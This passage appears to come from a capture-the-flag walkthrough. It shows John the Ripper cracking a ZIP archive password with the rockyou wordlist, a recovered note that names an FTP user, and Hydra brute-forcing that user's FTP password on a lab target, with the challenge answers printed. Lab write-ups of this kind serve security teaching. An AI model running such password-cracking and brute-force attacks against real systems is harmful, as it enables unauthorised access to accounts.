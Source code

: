 <h3 align="center">$$\textcolor{white}{\textnormal{john X hash }}$$</h3>
<p align="center"><code>00385007</code> --> <code>note.txt</code></p>

<br>

```bash
:~# john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
00385007         (backups.zip/backups/note.txt)
...
Session completed. 
:~# unzip backups.zip
Archive:  backups.zip
   creating: backups/
[backups.zip] backups/note.txt password: 
  inflating: backups/note.txt
:~# cd backups
:~/backups# ls
note.txt
```

<br>

<h3 align="center">$$\textcolor{white}{\textnormal{cat X note.txt }}$$</h3>
<p align="center"><code>ftp username</code> : <code>ftpuser</code></p>

<br>

```bash
:~/backups# cat note.txt
@vill

James new ftp username: ftpuser
we have to work hard
:~/backups# 
```

<br>
<br>

> 3.2. <em>ftp password?</em><a id='3.2'></a>
>> <code><strong>love4ever</strong></code><br>

<br>

<br>

<h3 align="center">$$\textcolor{white}{\textnormal{hydra x ftpuser}}$$</h3>
<p align="center"><code>ftpuser</code> : <code>love4ever</code></p>

<br>

```bash
:~/backups# hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://TargetIP
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-10 03:05:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://TargetIP:21/
[STATUS] 222.00 tries/min, 222 tries in 00:01h, 14344176 to do in 1076:54h, 16 active
[STATUS] 250.33 tries/min, 751 tries in 00:03h, 14343647 to do in 954:59h, 16 active
[21][ftp] host: TargetIP   login: ftpuser   password: love4ever
1 of 1 target successfully completed, 1 valid password found
...
```
